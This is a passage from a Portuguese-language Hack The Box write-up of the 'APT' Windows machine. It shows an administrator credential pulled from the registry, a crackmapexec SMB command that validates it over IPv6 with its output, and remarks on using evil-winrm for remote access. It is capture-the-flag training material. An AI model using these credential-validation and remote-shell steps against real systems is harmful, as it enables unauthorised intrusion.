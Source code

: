 ![reg.py credenciais de henry.vinson_adm](Assets/HTB-Windows-Insane-APT/reg_henry_vinson_adm.png)

> henry.vinson_adm:G1#Ny5@2dvht

Vamos validar com crackmapexec...

```bash
crackmapexec smb apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\henry.vinson_adm:G1#Ny5@2dvht
```

De referir que o crackmapexec por IPv6 (o pequeno apt que se vê, é o IPv6 que se encontra no /etc/hosts) só funciona por smb. Sempre que se tenha novas credenciais e que quisermos verificar se temos capacidade de psexec ou evil-winrm, temos de fazê-lo á mão mesmo.

![Evil-WinRM henry.vinson_adm](Assets/HTB-Windows-Insane-APT/winrm_henry_adm.png)
